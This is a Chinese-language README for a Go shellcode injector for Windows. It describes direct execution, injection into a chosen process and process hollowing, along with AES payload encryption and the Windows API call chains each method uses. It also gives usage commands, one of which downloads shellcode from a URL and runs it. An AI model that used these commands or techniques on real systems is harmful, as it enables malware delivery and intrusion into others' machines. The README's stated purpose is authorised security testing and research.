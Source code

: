 # ShellcodeInjecterGo

这是一个用Go语言编写的Windows shellcode执行工具。支持多种shellcode注入方式，包括直接执行、进程注入和进程镂空，并集成了高级的AES加密保护机制。

## 功能特性

- 支持多种shellcode输入方式
    - 直接输入字节 (-i)
    - 从文件读取 (-f)
    - 从URL下载 (-u)
- 支持多种执行方式
    - 直接在当前进程中执行
    - 通过PID注入到指定进程 (-p)
    - 通过进程名注入到指定进程 (-n)
    - 创建并镂空新进程 (-e)
- 安全特性
    - AES-256加密保护
    - 随机IV生成
    - PKCS7填充
- 详细的错误处理和调试信息
- 支持Windows系统

## 系统要求

- Windows操作系统
- Go 1.16或更高版本
- golang.org/x/sys/windows包

## 安装

```bash
# 克隆仓库
git clone https://github.com/Gr-1m/ShellcodeInjecterGo.git

# 进入项目目录
cd ShellcodeInjecterGo

# 构建项目
go build -o ShellcodeInjecterGo.exe
```

## 使用方法

### 命令行参数

```
-i string    直接指定shellcode字节
-f string    从文件加载shellcode
-u string    从URL下载shellcode
-p int       指定注入的目标进程ID（可选）
-n string    指定注入的目标进程名称（可选）
-e string    指定要镂空的可执行文件路径（可选）
-debug       启用调试输出
```

### 使用示例

1. 从URL加载shellcode并直接执行：
```bash
ShellcodeInjecterGo.exe -u http://example.com/shellcode.bin -debug
```

2. 通过进程ID注入shellcode：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -p 1234
```

3. 通过进程名称注入shellcode：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -n "notepad.exe"
```

4. 进程镂空执行：
```bash
ShellcodeInjecterGo.exe -f shellcode.bin -e "C:\Windows\notepad.exe"
```

## 技术实现细节

### 加密保护机制
- AES-256 CBC模式加密
- 随机密钥和IV生成
- PKCS7填充标准
- 内存安全处理

### 进程操作
1. 直接执行模式
    - VirtualAlloc
    - RtlMoveMemory
    - CreateThread
    - WaitForSingleObject

2. 进程注入模式
    - OpenProcess
    - VirtualAllocEx
    - WriteProcessMemory
    - CreateRemoteThread

3. 进程镂空模式
    - CreateProcessA（挂起方式）
    - ZwQueryInformationProcess
    - ReadProcessMemory
    - WriteProcessMemory
    - ResumeThread

### 进程查找
- CreateToolhelp32Snapshot
- Process32First/Process32Next
- UTF16字符串处理

## 错误处理

常见错误及解决方案：

1. Access Denied
    - 使用管理员权限运行
    - 检查进程权限
    - 确认目标进程访问权限

2. 内存操作错误
    - 检查系统资源
    - 验证shellcode大小
    - 确认内存分配权限

3. 进程操作错误
    - 确认目标进程存在
    - 验证进程名称/ID正确性
    - 检查进程状态

4. 加密相关错误
    - 验证密钥完整性
    - 检查数据块大小
    - 确认填充正确性

## 安全警告

⚠️ 本工具具有潜在的危险性，可能被滥用：
- 仅可用于授权的安全测试
- 不得用于未经授权的系统
- 不得用于恶意目的
- 使用加密功能时注意密钥管理

## 贡献指南

欢迎提交Pull Request或Issue来改进本项目：
1. Fork本仓库
2. 创建您的特性分支
3. 提交您的改动
4. 推送到您的分支
5. 提交Pull Request

## 免责声明

本工具仅供安全研究和教育目的使用。使用本工具进行任何未经授权的测试或攻击行为，后果由使用者自行承担。作者不对任何滥用或非法使用负责。

## 致谢

- [ChrisPritchard/golang-shellcode-runner](https://github.com/ChrisPritchard/golang-shellcode-runner)
- [sharcmz/ShellcodeInjecterGo](https://github.com/sharcmz/ShellcodeInjecterGo)
- Windows系统编程文档
- Go语言社区
